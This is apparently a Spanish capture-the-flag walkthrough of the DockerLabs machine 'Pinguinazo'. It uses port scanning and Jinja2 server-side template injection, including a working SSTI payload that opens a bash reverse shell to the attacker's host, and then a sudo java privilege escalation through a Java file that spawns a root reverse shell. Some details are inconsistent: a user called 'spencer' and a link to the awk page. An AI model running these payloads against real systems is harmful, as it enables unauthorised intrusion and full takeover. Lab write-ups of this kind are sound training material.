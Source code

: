 ```yaml
---
title: Pinguinazo - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario       | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/a1b3010c-7235-45e3-a057-cf16acc3df66)

El escaneo detecta el puerto `5000`, que parece corresponder a un servicio HTTP.

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p5000 -sCV 172.17.0.2 -oG targeted
```

# Exploración Web
Al acceder al puerto `5000`, encontramos una página con un formulario de entrada que muestra el texto ingresado en un mensaje de respuesta:

![image](https://github.com/user-attachments/assets/9ad77e97-b5ea-46e9-a5f4-40278e2b5d1d)

Dependiendo de lo que pongamos en el apartado de nombre, nos lo pone en un mensaje. 

![image](https://github.com/user-attachments/assets/a0ef092c-6331-423c-b27f-19392b169c2a)

Probamos inyectar `{{7*7}}` para verificar si el formulario interpreta entradas como código:

![image](https://github.com/user-attachments/assets/39109651-e9ac-444b-9063-72f29577311a)

Al recibir `49` como resultado, confirmamos que el formulario permite Inyección de Plantillas del Lado del Servidor (SSTI), lo que indica que podríamos estar trabajando con Jinja2 en el backend. Nos basamos en [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). para confirmar esto, y usamos el siguiente payload para ejecutar el comando `id`:
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
# Reverse Shell

Para obtener una reverse shell, usamos el siguiente payload para ejecutar un comando de conexión inversa desde el servidor a nuestra máquina local:
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```
Simultáneamente, escuchamos con `netcat` en el puerto `4444` en nuestra máquina:
```bash
nc -lvnp 4444  
```

# Intrusión 

Después de ejecutar el payload, obtenemos acceso a la máquina como el usuario `pinguinazo`.

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de Privilegios.

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `java` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/5223fbe6-c1ec-4b5c-9ea9-9987abacb551)

Creamos un archivo en /tmp llamado shell.java con el siguiente código para ejecutar una reverse shell:

```bash
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

Compilamos y ejecutamos el código con java:

```bash
sudo /usr/bin/java shell.java 
```
Con esto, obtenemos acceso como root.

![image](https://github.com/user-attachments/assets/64d1a323-c580-430e-8a7a-de4b4da2cb2c)

